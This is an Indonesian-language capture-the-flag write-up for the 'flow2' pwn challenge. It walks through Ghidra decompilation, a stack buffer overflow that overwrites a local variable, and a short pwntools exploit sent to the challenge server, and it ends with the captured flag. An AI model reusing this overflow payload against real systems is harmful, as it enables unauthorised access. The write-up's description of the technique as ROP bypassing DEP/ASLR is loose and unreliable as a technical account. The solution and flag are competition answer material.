

# flow2

## Deskripsi
`nc 165.22.107.94 17002`

## Attachment
[chall](./Challenge/chall)

## Solusi
Diberikan suatu file binary dan langsung melakukan pengecekan dengan menggunakan Ghidra yang merupakan salah satu tool yang umum digunakan untuk reverse engineering. 
Langkah pertama kita melakukan pengecekan terhadap fungsi main(). 
Berikut adalah tampilan decompile dari fungsi main tersebut pada Ghidra.



Berdasarkan hasil decompile dari fungsi main tersebut, kita dapat melakukan eksploitasi pada fungsi main. 
Teknik eksploitasi yang digunakan adalah Return-Oriented Programming (ROP). 
ROP merupakan teknik untuk membypass mekanisme keamanan seperti Data Execution Prevention (DEP) dan Address Space Layout Randomization (ASLR) dengan cara memanipulasi existing code. Di sini kita harus melakukan overwrite nilai dari variabel `local_14` dengan nilai `0x4170417`, cara yang dilakukan adalah dengan membuat input untuk overflows buffer `local_54` dan overwrite nilai dari `local_14`.

Berikut adalah code yang kami buat dan tampilan ketika code tersebut dijalankan.

```py
from pwn import *

io = remote('165.22.107.94', 17002)

offset = 64
desired_value = p32(0x4170417)
system_addr = p64(0x401050)

payload = b'A' * offset + desired_value + b'A' * 4 + system_addr

io.sendline(payload)
io.interactive()
```


## Flag
### KMIPN{U_CAN_CONTROL_THE_VALUE_NOW!!!_LINZ_IS_HERE}
